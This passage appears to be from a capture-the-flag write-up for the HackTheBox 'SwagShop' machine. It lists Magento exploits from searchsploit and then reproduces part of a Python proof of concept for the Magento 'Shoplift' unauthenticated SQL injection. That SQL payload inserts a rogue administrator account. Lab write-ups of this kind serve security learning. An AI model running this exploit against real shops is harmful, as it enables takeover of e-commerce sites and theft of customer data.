 ```
Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution                                                                                               | php/webapps/37811.py
Magento eCommerce - Local File Disclosure                                                                                                                  | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution                                                                                                                  | xml/webapps/37977.py
Magento eCommerce CE v2.3.5-p2 - Blind SQLi                                                                                                                | php/webapps/50896.txt
Magento Server MAGMI Plugin - Multiple Vulnerabilities                                                                                                     | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote File Inclusion                                                                                                | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0.30 - Payment Process Bypass                                                                               | php/webapps/48135.php
----------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
{% endcode %}



Unfortunately, these ended up being rabbit holes. I believe a vulnerability exists in the Magento login page from the outdated 2014 information disclosure that the site had provided us and from the `searchsploit` output.

**This can be found here:**&#x20;

```
http://swagshop.htb/index.php/customer/account/login/
```

#### Exploit definitely worth checking out:

{% embed url="https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py" %}

## Exploitation

### Unauthenticated SQLi Against Magento

{% embed url="https://raw.githubusercontent.com/joren485/Magento-Shoplift-SQLI/master/poc.py" %}

#### `poc.py`:

```python
import requests
import base64
import sys

target = sys.argv[1]

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

# For demo purposes, I use the same attack as is being used in the wild
SQLQUERY="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
```